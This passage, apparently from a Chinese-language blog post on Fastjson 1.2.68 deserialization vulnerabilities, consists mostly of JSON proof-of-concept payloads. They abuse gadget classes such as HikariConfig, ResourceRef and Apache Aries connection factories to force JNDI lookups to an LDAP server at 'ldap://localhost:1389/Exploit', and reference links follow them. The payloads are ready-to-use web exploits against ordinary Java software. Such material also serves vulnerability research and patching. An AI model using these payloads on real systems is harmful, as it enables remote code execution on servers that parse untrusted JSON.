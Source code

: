 JSON

```
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}或{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

com.caucho.config.types.ResourceRef类PoC：

JSON

```
{"@type":"com.caucho.config.types.ResourceRef","lookupName": "ldap://localhost:1389/Exploit", "value": {"$ref":"$.value"}}
```

### 未知版本

org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory类PoC：

JSON

```
{"@type":"org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory", "tmJndiName": "ldap://localhost:1389/Exploit", "tmFromJndi": true, "transactionManager": {"$ref":"$.transactionManager"}}
```

org.apache.aries.transaction.jms.internal.XaPooledConnectionFactory类PoC：

JSON

```
{"@type":"org.apache.aries.transaction.jms.internal.XaPooledConnectionFactory", "tmJndiName": "ldap://localhost:1389/Exploit", "tmFromJndi": true, "transactionManager": {"$ref":"$.transactionManager"}}
```

## 参考资料

[Fastjson反序列化漏洞(4)—1.2.68版本 – JohnFrod’s Blog](https://johnfrod.top/安全/704/)
[（安全客首发）Fastjson系列六——1.2.48-1.2.68反序列化漏洞 [ Mi1k7ea \]](https://www.mi1k7ea.com/2021/02/08/Fastjson系列六——1-2-48-1-2-68反序列化漏洞/#写入文件)